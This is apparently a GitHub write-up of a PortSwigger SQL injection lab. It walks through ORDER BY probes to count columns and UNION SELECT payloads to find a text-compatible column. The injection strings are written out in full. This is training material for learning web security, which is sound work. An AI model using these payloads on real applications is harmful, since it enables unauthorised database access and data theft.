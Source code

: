 # Lab: SQL Injection UNION attack – Finding a column containing text - [Link](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)


### Goal:

Make the database retrieve the string: `'ZUA5jF'`
You must find **which column** can hold text (i.e., string data type).

## Step-by-step:

### 1. Determine number of columns

Test with `ORDER BY` until it breaks:

```sql
' ORDER BY 1--        → OK  
' ORDER BY 2--        → OK  
' ORDER BY 3--        → OK  
' ORDER BY 4--        → ERROR  
```

Means: **3 columns**


### 2. Determine data types in each column (to find which one supports **text**)

Try:

```sql
' UNION SELECT NULL,NULL,NULL--        → OK  
' UNION SELECT 'a',NULL,NULL--         → ERROR  
' UNION SELECT NULL,'ZUA5jF',NULL--    → OK — Challenge solved
```

Column **2** accepts text
The lab was automatically solved when the correct string was retrieved.
